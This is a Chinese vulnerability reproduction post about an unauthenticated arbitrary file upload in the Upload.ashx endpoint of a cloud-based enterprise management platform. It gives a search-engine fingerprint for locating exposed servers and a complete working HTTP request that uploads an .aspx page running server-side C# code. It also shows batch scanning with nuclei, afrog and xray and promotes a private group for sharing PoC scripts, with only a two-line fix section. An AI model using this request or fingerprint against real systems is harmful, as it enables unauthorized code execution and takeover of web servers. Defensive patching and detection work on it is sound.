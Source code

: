 #  【漏洞复现】某天云智慧平台系统 Upload.ashx 任意文件上传漏洞   
原创 Superhero  Nday Poc   2024-08-05 09:48  
  
**0x01 产品简介**  
  
某天云智慧平台系统，作为方天科技公司的重要产品，是一款面向企业全流程的业务管理功能平台，集成了ERP（企业资源规划）、MES（车间执行系统）、APS（先进规划与排程）、PLM（产品生命周期）、CRM（客户关系管理）等多种功能模块，旨在通过云端服务为企业提供数字化、智能化的管理解决方案。  
  
  
**0x02 漏洞概述**  
  
某天云智慧平台系统 Upload.ashx 接口处存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
  
  
**0x03 搜索引擎**  
```
body="AjaxMethods.asmx/GetCompanyItem"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2eSfKc3AJ6TGApTRWiaMic2o1IM453oic1YpQYdbdV49WIwL1vUA54OSGg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
POST /Upload.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySl8siBbmVicABvTX
Connection: close
 
------WebKitFormBoundarySl8siBbmVicABvTX
Content-Disposition: form-data; name="file"; filename="qwe.aspx"
Content-Type: image/jpeg
 
<%@Page Language="C#"%><%Response.Write("hello");System.IO.File.Delete(Request.PhysicalPath);%>
------WebKitFormBoundarySl8siBbmVicABvTX--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV29AicjjiaSvSWicEJpaOvsASuYibjqAcgwsQkqxNh2RZ5OTrVXoTo0JI5eA/640?wx_fmt=png&from=appmsg "")  
```
UploadFile/CustomerFile/返回的路径名
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2u2BtWXM9eiaH0YgR6OdorhEFrSoyPRG67BylvCo6t4KeMQ0pNZgIwBA/640?wx_fmt=png&from=appmsg "")  
  
****  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2p39Aamk6sl5ppiaFNgYLupbIdibZia6jxfFFQJgTn5zqp8LN4MNNPcR0w/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2FItEzlZoJg3r1S3YHqNHXiaKCQ1NupHC8kH3RLuud1OiaLo0hHj2ib0cw/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2YaY0Df1PjKRrUFuE7RV49mjJcicxibMWqcLaVrg1GJTRPtUvE0aY6qCA/640?wx_fmt=png&from=appmsg "")  
  
POC  
脚本获取  
  
请使用VX扫一扫加入内部  
POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKl0icMBqaW29lTYxhX6jzV2MMeRN5HA6TvyZPThhIBB0G6Rl0vWxScsy5BicmM9FG6GP3W3LSSA0gg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x06 修复建议**  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、及时升级到安全版本  
  
  
  
